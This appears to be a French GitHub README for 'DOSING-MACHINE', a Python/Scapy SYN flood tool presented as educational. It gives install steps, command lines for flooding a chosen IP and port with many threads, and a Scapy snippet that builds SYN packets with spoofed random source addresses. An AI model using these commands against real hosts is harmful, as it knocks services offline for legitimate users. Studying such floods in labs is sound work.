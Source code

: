 🚨 DOSING-MACHINE

Simulateur SYN Flood Éducatif - Comprendre les vulnérabilités TCP/IP

Afficher l'image
Afficher l'image
Afficher l'image
📋 Description
DOSING-MACHINE est un outil éducatif conçu pour comprendre les attaques SYN Flood et l'impact sur les protocoles TCP/IP. Il simule une attaque par déni de service (DoS) dans un environnement contrôlé.
🎯 Objectifs pédagogiques

Comprendre le fonctionnement du three-way handshake TCP
Analyser l'impact des attaques SYN Flood sur les ressources serveur
Explorer les techniques de spoofing d'adresses IP
Sensibiliser aux vulnérabilités des protocoles réseau

⚠️ Usage Éthique UNIQUEMENT
🛑 AVERTISSEMENT CRITIQUE 🛑
Cet outil est destiné EXCLUSIVEMENT à des fins éducatives :
✅ Tests sur VOS propres systèmes
✅ Environnements de laboratoire/simulation  
✅ Recherche académique en sécurité
❌ AUCUN usage malveillant autorisé
🛠️ Installation
Prérequis
bash# Python 3.7+
python3 --version

# Privilèges administrateur (pour Scapy)
sudo -v
Dépendances
bash# Installation de Scapy
pip3 install scapy

# Ou avec requirements.txt
pip3 install -r requirements.txt
🚀 Usage
Syntaxe de base
bashsudo python3 dosing_machine.py <TARGET_IP> <TARGET_PORT> [OPTIONS]
Exemples d'utilisation
Test local basique
bash# Test sur localhost
sudo python3 dosing_machine.py 127.0.0.1 80
Configuration avancée
bash# 20 threads avec méthode Scapy
sudo python3 dosing_machine.py 192.168.1.100 8080 -t 20 -m scapy

# Méthode socket (sans privilèges root)
python3 dosing_machine.py 192.168.1.100 8080 -m socket
Options disponibles
OptionDescriptionDéfaut-t, --threadsNombre de threads10-m, --methodMéthode (scapy/socket)scapy-h, --helpAide-
🔧 Fonctionnalités
🎯 Deux méthodes d'attaque

Scapy : Contrôle total des paquets TCP/IP
Socket : Approche plus simple, pas de privilèges requis

📊 Monitoring temps réel
[DOSING] Paquets envoyés: 15847 | Taux: 1584.7 pkt/s | Durée: 10.0s
🧵 Multi-threading

Simulation de charge distribuée
Contrôle du nombre de threads
Synchronisation thread-safe

🛡️ Safeguards intégrés

Confirmation d'usage éthique
Validation des paramètres
Gestion propre des interruptions

🔬 Analyse Technique
Fonctionnement SYN Flood

Génération d'IPs sources aléatoires (spoofing)
Envoi massif de paquets SYN
Épuisement de la table de connexions du serveur
Déni de service pour les clients légitimes

Structure des paquets
python# Paquet SYN avec Scapy
ip_layer = IP(src=random_ip, dst=target_ip)
tcp_layer = TCP(sport=random_port, dport=target_port, flags="S")
packet = ip_layer / tcp_layer
📈 Métriques et Rapport
